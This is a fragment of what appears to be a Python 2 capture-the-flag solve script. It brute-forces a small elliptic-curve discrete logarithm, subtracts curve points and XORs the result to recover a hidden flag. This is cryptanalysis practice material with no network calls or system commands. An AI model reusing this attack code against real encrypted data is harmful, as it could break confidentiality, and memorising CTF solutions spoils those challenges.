	CC = curve.add(C2_, Point(C4.x, curve.p - C4.y))
	
	num = 419665
	
	while num > 0:
	    if CC.x == curve.multiply(G, num).x:
	        print num
	        print  CC.y , curve.multiply(G, num).y
	        #exit(0)
	    num = num - 1
	"""
	r0_r1 = 419665
	
	C1_ = curve.multiply(C1, 2)
	
	CC = curve.add(C1_, Point(C3.x, curve.p - C3.y))
	
	M = curve.add(CC,Point(curve.multiply(K, r0_r1).x,curve.p - curve.multiply(K, r0_r1).y))
	
	print hex(M.x ^ flag)[2:].replace("L","").decode('hex')

